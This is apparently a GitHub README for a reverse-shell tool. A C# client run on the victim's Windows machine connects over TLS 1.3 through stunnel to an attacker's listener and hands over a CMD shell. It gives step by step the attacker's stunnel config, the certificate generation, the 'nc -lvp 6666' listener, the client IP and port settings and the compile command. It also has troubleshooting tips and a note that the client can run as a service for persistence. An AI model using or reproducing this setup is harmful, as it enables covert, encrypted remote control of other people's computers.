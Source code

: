 # STunnell_RevShell
A Reverse shell through Stunnel.
## Architecture
- Client Net4.8 C#
- Server Stunnell4

## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/stunnel.pem
	
	 
Here we set stunnel listening for incoming connection on port 9999. This connection is encrypted, then forwards the stream  to port 6666 where we will have nc listening. This flow is not encrypted of course.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
Start stunnell

	service stunnel4 start
	
Check if works:

	sudo service stunnel4 status
	● stunnel4.service - LSB: Start or stop stunnel 4.x (TLS tunnel for network daemons)
	     Loaded: loaded (/etc/init.d/stunnel4; generated)
	     Active: active (running) since Tue 2024-05-21 22:11:47 CEST; 5s ago
	       Docs: man:systemd-sysv-generator(8)
	    Process: 133285 ExecStart=/etc/init.d/stunnel4 start (code=exited, status=0/SUCCESS)
	      Tasks: 3 (limit: 9398)
	     Memory: 4.2M (peak: 4.6M)
	        CPU: 241ms
     	CGroup: /system.slice/stunnel4.service
             └─133301 /usr/bin/stunnel4 /etc/stunnel/stunnel.conf


Verify stunnell port is listening:	

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Configure the client
Set the Stunnell server and port around line 50:

	//CONFIG THIS: point to the Stunell server
        string IP = "192.168.1.2";
        int PORT = 9999;
## TLS configuration
The client use TLS 1.3 (teseted on windows 11) to connect to the server:

	sslStream.AuthenticateAsClient("host.local", 
		new X509CertificateCollection(), 
		SslProtocols.Tls13, 
		false);

## Compile the client
Youn can compile the client as follows:

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe STunnel_RevShell.cs
	
	
Executing Program.exe we should read the following on the shell

	ver 1.0 Coded by GuerraIT
	ver 1.1 Modified by Zinzloun (support TLS 1.3)
	
	Using the following connection 192.168.1.7:9999
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxxxx ......
The you shoud get a CMD shell on the attacker

## Exception: missing server connection
### nc is not listening on the server
Since the client app can connect to Stunnell but not to nc, it will continue to send requests to the server. You will see on the console the certificate info looping:
	
 	...
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
 	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	...
At soon as the nc listener is started on the server the client will connect immediately, stopping to print the certificate information; you will get the shell.

## Stunnell service is not reachable
In this case the client will keep to try to connect to Stunnel. You won't get the certificate information printed in this case, only the following line:

	...
	Using the following connection 192.168.1.7:9999
As soon as the client can connect to Stunnel the app will switch to the previous state (looping certificate info printend on the screen). If nc listener is also started on the server you will get a shell.

## Persistence
You can use the app as a service

## Trouble shooting on Kali
If you get the following error re-starting stunnel:

	sudo service stunnel4 status
	...
 	Active: failed (Result: exit-code) since Tue 2024-05-21 22:04:54 CEST; 2min 21s ago
  	stunnel4.service: Failed with result 'exit-code'.
	stunnel4.service: Unit process 52254 (stunnel4) remains running after unit stopped.

It seems a bug on Debian related to the PID file, to solve try to manually kill the related process 

 	sudo kill -9 52254

Then restart the service

		

